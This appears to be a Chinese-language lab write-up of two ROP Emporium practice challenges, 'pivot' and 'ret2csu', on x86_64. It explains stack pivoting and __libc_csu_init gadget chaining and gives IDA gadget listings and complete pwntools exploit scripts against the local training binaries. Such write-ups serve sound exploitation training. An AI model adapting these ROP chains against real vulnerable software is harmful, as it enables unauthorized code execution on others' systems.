




ROP Emporium是一个提供ROP攻击学习样板程序的网站，一共8道题，每道题有64位、32位、ARM、MIPS共4种格式的ELF文件，适用于多种平台，难度依次递增。本文档为前6道题的x86_64位版本的解析。
ROP Emporium
看名字就知道，这是一道栈迁移的题目。
gadget如下，有对栈的操作，能够修改rsp，也就能进行栈迁移了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 .text:00000000004009BB ; --------------------------------------------------------------------------- .text:00000000004009BB .text:00000000004009BB usefulGadgets: .text:00000000004009BB pop rax .text:00000000004009BC retn .text:00000000004009BD ; --------------------------------------------------------------------------- .text:00000000004009BD xchg rax, rsp .text:00000000004009BF retn .text:00000000004009C0 ; --------------------------------------------------------------------------- .text:00000000004009C0 mov rax, [rax] .text:00000000004009C3 retn .text:00000000004009C4 ; --------------------------------------------------------------------------- .text:00000000004009C4 add rax, rbp .text:00000000004009C7 retn .text:00000000004009C7 ; ---------------------------------------------------------------------------
程序一共有两次输入的机会，第一次是在伪造的栈中，第二次是直接接在后面的ROP。第二次的ROP长度不足，因此采用栈迁移。经过试验发现，第二个ROP的长度正好足够进行栈迁移。迁移后，我们只需要返回到ret2win函数即可。但是这个函数在lib文件中，加载基地址未知。对此，我们可以调用gadget获取lib中foothold_function函数的基地址，这也是源程序中唯一一个能够在plt节中找到的lib函数。注意到有一个gadget是mov rax, [rax]，既然我们能够控制rax的值，就可以将任意地址的值写入到rax中。如果没有这个gadget，我们就需要使用puts或printf函数将地址输出并返回到main函数中再次进行ROP注入。注意到还有一个gadget是add rax, rbp。我们读取lib中的函数偏移，让rbp等于ret2win的地址与foothold_function地址之差，就能够不通过输出直接将ret2win的地址保存到rax之中（在整个过程中rbp会通过leave, push, pop等指令保持不变）。注意到程序中有一条指令为jmp rax。我们直接跳转到这条指令即可让控制流跳转到ret2win函数。我想作者不让我们使用puts函数再进行一次注入的原因可能与程序本身有关，因为除了jmp rax之外，我们无法将返回地址写到栈上，这也就强迫我们使用所有的gadget。
参考：leave指令 = mov rsp, rbp; mov rbp, [rbp]
payload:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 from pwn import *context.log_level = 'debug' io = process('./pivot' ) elf = ELF('./pivot' ) lib = ELF('./libpivot.so' ) rax = 0x4009bb rsp = 0x4009bd rax_addr = 0x4009c0 add_rax = 0x4009c4 jmp_rax = 0x4007c1 main_addr = 0x400847 io.recvuntil(b'place to pivot: 0x' ) fake_stack = int (io.recv(12 ).decode(), 16 ) payload = p64(elf.plt['foothold_function' ]) payload += p64(rax) + p64(elf.got['foothold_function' ]) payload += p64(rax_addr) payload += p64(add_rax) payload += p64(jmp_rax) io.sendlineafter(b'> ' , payload) payload = cyclic(32 ) payload += p64(lib.symbols['ret2win' ] - lib.symbols['foothold_function' ]) payload += p64(rax) + p64(fake_stack) payload += p64(rsp) io.sendlineafter(b'> ' , payload) io.interactive()
这是一种利用__libc_csu_init函数构造ROP的攻击方式。在本题中，由于是64位程序，因此在有些细节方面可能不好把握。

本题有后门函数ret2win，但是要想拿到shell首先需要传入正确的参数，即第7行的3个参数。
ret2csu的攻击流程大致如下：
首先将返回地址改到ret2csu函数的这个地方：
第三个函数参数在rdx中保存，可惜我们这里并不能控制rdx，这就需要用到__libc_csu_init函数的第二个gadget了：
但是！有一个问题出现了。请注意，这里会对rdx,rsi,edi进行赋值。其中rdx和rsi的赋值都没问题，我们将参数事先存放到r15和r14中即可。问题就出在对edi的赋值上。根据测试检验发现，mov esi, r13d指令会将rdi的高32位清零。这就会导致我们的第一个参数错误。但好巧不巧的是其后面就是call指令，我们已经没有机会再去修改这个错误了。
我曾经想过，如果第一次能够call回到第一个ROP段中将rdi重新pop一次，之后直接返回到call指令，或许有用。但这里的call是取地址，如果将r12+rbx*8改为pop rdi;ret的地址，实际上call的并不是这里，而是会读取这里的机器码call出去，这当然是会崩溃的。
参考其他资料发现这里的指令依libc版本不同而可能不同，在有些版本中是mov rdi, r13，这样的话没有任何问题，但现在这种情况就需要动动脑子了。问师傅，鸽了两周都不回——无奈只能全论坛找答案。（菜）
参考文章：传送门
实际上通过ret，我们不是非得通过call指令转到ret2win函数，任何一个ret之后接ret2win函数的地址均可。所以这里的思路就是：让call指令无意义且在确保对寄存器影响最小的情况下返回，不能影响rdx的值，否则无效。

因此，我们现在的目标是在ret2csu程序中找到一个能够安全返回且不影响rdx的代码片段。当然我们需要根据ret指令来查找。在IDA中进行查找，对每个ret指令前面的代码进行检查，判断其是否满足我们的需求。下面是找到的可能符合需求的几个代码碎片：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 .init:00000000004004E2 48 83 C4 08 add rsp, 8 .init:00000000004004E6 C3 retn .text:0000000000400588 5D pop rbp .text:0000000000400589 C3 retn .text:00000000004005C8 5D pop rbp .text:00000000004005C9 C3 retn .text:00000000004005E2 C6 05 4F 0A 20 00 01 mov cs:__bss_start, 1 .text:00000000004005E9 5D pop rbp .text:00000000004005EA C3 retn .text:0000000000400610 B8 00 00 00 00 mov eax, 0 .text:0000000000400615 5D pop rbp .text:0000000000400616 C3 retn .text:0000000000400630 5D pop rbp .text:0000000000400631 C3 retn .text:0000000000400696 48 83 C4 08 add rsp, 8 .text:000000000040069A 5B pop rbx .text:000000000040069B 5D pop rbp .text:000000000040069C 41 5C pop r12 .text:000000000040069E 41 5D pop r13 .text:00000000004006A0 41 5E pop r14 .text:00000000004006A2 41 5F pop r15 .text:00000000004006A4 C3 retn .fini:00000000004006B4 48 83 EC 08 sub rsp, 8 ; _fini .fini:00000000004006B8 48 83 C4 08 add rsp, 8 .fini:00000000004006BC C3 retn
其中最值得我们关注的就是最后一个片段，它将rsp减8又加8，相当于没有任何变化，而前面的片段均对寄存器有或多或少的影响。于是我们使用最后一个代码片段试试看。
要能够成功使用代码片段，还需要在内存空间中找到一个保存着这个代码段地址的地方，因为前面已经说过，call的地址是取值拿到的，所以不能直接将地址放在寄存器中。我们在IDA中尝试搜索，没想到还真的搜索到了：

我们只需要将r12赋值为0x4003b0，就能够完美跳过这个call并毫发无损地返回，也就有了修正第一个参数的机会。注意：此时我们会多pop掉7个参数，因此要在栈中加7个无效数。
payload:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 from pwn import *io = process('./ret2csu' ) elf = ELF('./ret2csu' ) lib = ELF('./libret2csu.so' ) ROP_1 = 0x40069a ROP_2 = 0x400680 rdi = 0x4006a3 call = 0x400689 payload = cyclic(40 ) payload += p64(rdi) + p64(0xdeadbeefdeadbeef ) payload += p64(ROP_1) payload += p64(0 ) + p64(1 ) + p64(0x4003B0 ) + p64(0xdeadbeefdeadbeef ) + p64(0xcafebabecafebabe ) + p64(0xd00df00dd00df00d ) payload += p64(ROP_2) payload += p64(0 ) * 7 payload += p64(rdi) + p64(0xdeadbeefdeadbeef ) payload += p64(elf.plt['ret2win' ]) io.sendlineafter(b'> ' , payload) io.interactive()
